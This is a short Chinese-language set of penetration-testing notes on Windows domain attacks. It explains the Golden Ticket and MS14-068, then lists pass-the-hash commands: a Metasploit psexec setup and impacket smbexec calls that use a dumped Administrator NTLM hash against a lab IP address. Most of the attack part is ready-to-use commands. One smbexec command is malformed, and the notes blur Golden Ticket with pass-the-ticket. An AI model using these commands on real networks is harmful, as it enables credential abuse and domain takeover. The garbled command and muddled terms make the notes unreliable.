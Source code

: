 



## 票据传递攻击

 域中每个用户的Ticket都是由krbtgt的密码Hash来计算生成的，因此只要我们拿到了krbtgt的密码Hash，就可以随意伪造Ticket，进而使用Ticket登陆域控制器，使用krbtgt用户hash生成的票据被称为Golden Ticket，此类攻击方法被称为票据传递攻击。 



##  MS14-068/pth

 微软给出的补丁是kb3011780，在server 2000以上的域控中，如果没有打这个补丁，那么情况将比较糟糕，利用该漏洞可以将任何一个域用户提权至域管理员权限，危害极大。 



### msf-psexec

目标:192.168.52.138

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a45a7246dd74b64a67f22fd7020f1bd8:::
```

```
use exploit/windows/smb/psexec
set lhost xxx
set lport xxx
set rhosts 192.168.52.138
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:a45a7246dd74b64a67f22fd7020f1bd8
```

### impacket_smbexec

```
python smbexec.py -hash aad3b435b51404eeaad3b435b51404ee:a45a7246dd74b64a67f22fd7020f1bd8Administrator@192.168.52.138

or

python smbexec.py -hashes :a45a7246dd74b64a67f22fd7020f1bd8 Administrator@192.168.52.138

```

显然，其实它只需要NThash部分就好啦。



## copy 于

 http://www.xmrseo.com/?post=87 

 [https://zhengbao.wang/%E5%9F%9F%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80/](https://zhengbao.wang/域渗透基础/) 

 https://www.freebuf.com/articles/system/217681.html 